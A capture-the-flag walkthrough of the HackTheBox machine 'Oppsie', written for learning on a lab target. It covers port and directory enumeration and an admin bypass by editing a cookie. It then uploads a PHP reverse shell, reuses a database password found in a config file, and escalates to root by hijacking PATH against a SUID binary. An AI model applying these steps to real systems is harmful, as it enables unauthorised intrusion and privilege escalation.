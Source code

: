 # HACKTHEBOX - Oppsie

## Enumeration:
```bash
alias rustscan='sudo docker run -it --rm --name rustscan rustscan/rustscan'
rustscan -a $IP --greppable # [22,80]

sudo nmap -v -sV -sC -p 22,80 -o nmap.txt $IP # sudo for SYN Stealth Scan
```

**nmap results**:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Working with port 80:

Main page is a boring web template, nothing much to inspect. Let's brute-forcing web directory:
```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://$IP/
# /server-status --> 403 Forbidden
# /uploads --> 403 Forbidden
```

**Boring exploit to gain admin access**:

Duh!! try using crawler from Burp-Suite to build Site-Map(listening all traffic to build a map), found: `/cdn-cgi/login/`

Login as guest --> uploads --> This action require super admin 
Login as guest --> account --> ?content=accounts&id=2 = [2233]guest--> ?content=accounts&id=1 --> [34322]admin
Check cookies --> user=2233 && role=guest--> user=34322 && role=admin --> *ADMIN HERE!!*

Upload php-reverse-shell.php --> trigger by `/uploads/php-reverse-shell.php` --> *reverse shell here!!*

Oldy upgrade normal shell to interactive shell!!
```bash
which python3 # yes
python3 -c "import pty; pty.spawn('/bin/bash')"
# Ctrl + z
stty -raw echo; fg
export TERM=xterm-256color
stty rows 40 columns 173
export SHELL=bash
```

From `/var/www/html/cdn-cgi/login/db.php`:
```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
Sweet, let's switch to `robert` account, `www-data` is lowest and boring privileges to messing around!!
```bash
su robert
# Password: M3g4C0rpUs3r!
```
From `/home/robert/user.txt`:

**user flag**: `HTB{f2c74ee8db7983851ab2a96a44eXXXXX}` 

**Find executable file bugtracker group**: `find / -group bugtracker -type f 2>/dev/null` --> `/usr/bin/bugtracker`

This also can be done by finding SUID file: `-perm u=s`

`/usr/bin/bugtracker` is SUID(set owner user id) by root(executed under privileges of root)
```bash
/usr/bin/bugtracker
# Enter bug ID: 1000 --> error --> cat: /root/reports/10000 --> the executable being called in an insecure manner(not being called full path)

# Ok, let's manipulate $PATH variable to gain root access!
cd /tmp
cat "/bin/bash" > cat # spawn bash shell in root privileges!
export PATH=/tmp:$PATH
/usr/bin/bugtracker # Enter bug ID: 0
whoami # root
```

From `/root/root.txt`:

**root flag**: `HTB{af13b0bee69f8a877c3faf667f7XXXXX}`
